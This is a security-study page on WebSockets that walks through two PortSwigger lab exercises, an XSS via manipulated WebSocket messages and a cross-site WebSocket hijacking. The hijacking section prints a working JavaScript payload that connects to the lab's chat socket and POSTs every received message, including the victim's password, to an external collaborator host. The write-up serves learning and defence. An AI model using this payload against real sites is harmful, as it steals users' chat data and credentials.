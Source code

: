 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# WebSockets

{% hint style="success" %}
A **WebSocket** is a communication protocol that provides full-duplex communication channels over a single TCP connection. It is designed to be implemented in web browsers and web servers but can be used by any client or server application.
{% endhint %}

## General Information

### Process

1. **Handshake**: The connection starts with an HTTP handshake, where the client sends an upgrade request to **switch the protocol** from `HTTP` to `WebSocket`.
2. **Data Frames**: After the handshake, **data is exchanged** in frames (text or binary data).
3. **Connection Lifecycle**: The connection remains open, allowing either party to send data until one side closes the connection.

## Examples

### XXS via WebSockets

> _The example below is based on PostSwigger's_ [Manipulating _WebSocket messages to exploit vulnerabilities_](https://portswigger.net/web-security/websockets/lab-manipulating-messages-to-exploit-vulnerabilities) _lab._

If we sent a payload directly from the Live chat functionality, it gets encoded (Figure 1).

<figure><img src="../../.gitbook/assets/web_websockets_1.png" alt=""><figcaption><p>Figure 1: Inspecting the WebSocket's traffic.</p></figcaption></figure>

We can intercept the traffic, decode the payload manually, and let the traffic be forwarded (Figure 2).

<figure><img src="../../.gitbook/assets/web_websockets_2.png" alt="" width="563"><figcaption><p>Figure 2: Manipulating the payload &#x26; achieving XSS.</p></figcaption></figure>

### WebSocket Hijacking

> _The example below is based on PostSwigger's_ [_Cross-site WebSocket hijacking_](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab) _lab._

To achieve WebSocket Hijacking we need to perform a CSRF[^1] attack on a WebSocket handshake, which is possible if:

1. The handshake relies on cookies.
2. There are no CSRF tokens.

We notice that we are assigned a `session` cookie with the `SameSite` attribute set to `None`, which is a prerequisite for this attack (Figure 3).

<figure><img src="../../.gitbook/assets/web_websockets_3.png" alt=""><figcaption><p>Figure 3: Checking the session's cookie flags.</p></figcaption></figure>

After inspecting the WebSocket connection behaviour, we can create a JS[^2] payload and retrieve the chat logs which include `carlos`'s password (Figure 4).

{% code overflow="wrap" %}
```javascript
<script>
var ws = new WebSocket('wss://0a4700f603803331818f583600220083.web-security-academy.net/chat');
ws.onopen = function() {
  ws.send("READY");
}

ws.onmessage = function(event) {
  fetch('https://6gnqllgs5kwtsbomr9wxdigcx33urmfb.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
}
</script>
```
{% endcode %}

<figure><img src="../../.gitbook/assets/web_websockets_4.png" alt=""><figcaption><p>Figure 5: The WebSocket Hijacking process.</p></figcaption></figure>

[^1]: Cross-Site Request Forgery

[^2]: JavaScript
